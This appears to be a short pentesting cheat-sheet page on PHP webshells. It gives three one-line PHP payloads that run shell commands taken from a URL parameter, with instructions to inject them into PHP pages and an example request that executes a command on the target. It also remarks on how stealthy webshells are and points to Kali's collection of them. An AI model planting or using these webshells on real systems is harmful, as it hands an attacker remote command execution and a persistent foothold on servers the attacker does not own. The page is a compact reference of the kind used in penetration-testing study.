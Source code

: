 # Webshell

## Basic cmd-shell

This code can be injected into pages that use php.
```
<?php system($_GET['cmd']); ?>
<?php passthru($_GET['cmd']); ?>
<?php echo shell_exec("whoami");?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

## Webshells

Wellshells have the benefit of running on port 80/443. Which makes it a bit more stealthy, it doesn't create a new connection that can be discovered. But on the other hand it creates a lot of strange logs that can be easy to detect.

You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/

